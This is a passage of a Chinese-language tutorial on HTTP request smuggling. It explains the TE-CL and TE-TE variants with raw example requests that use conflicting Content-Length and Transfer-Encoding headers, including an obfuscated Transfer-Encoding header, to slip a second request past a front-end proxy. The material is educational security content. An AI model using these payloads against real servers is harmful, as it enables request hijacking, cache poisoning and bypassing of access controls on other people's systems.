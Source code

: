 
### TE-CL

TE-CL 指前端服务器处理 `Transfer-Encoding` 请求头，而后端服务器处理 `Content-Length` 请求头。例如：

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
...
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

前端服务器处理`Transfer-Encoding`，当其读取到

```
0\r\n
\r\n
```

认为是读取完毕了。  
此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理 `Content-Length` 请求头，因为请求体的长度为 `4`.也就是当它读取完

```
12\r\n
```

就认为这个请求已经结束了。后面的数据就认为是另一个请求：

```
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

成功报错，造成HTTP请求走私。


### TE-TE

TE-TE，当收到存在两个请求头的请求包时，前后端服务器都处理`Transfer-Encoding` 请求头，确实是实现了RFC的标准。不过前后端服务器不是同一种。这就有了一种方法，我们可以对发送的请求包中的 `Transfer-Encoding` 进行某种==混淆==操作(如某个字符改变大小写)，从而使其中一个服务器不处理 `Transfer-Encoding` 请求头。在某种意义上这还是 `CL-TE` 或者 `TE-CL`。

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
...
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

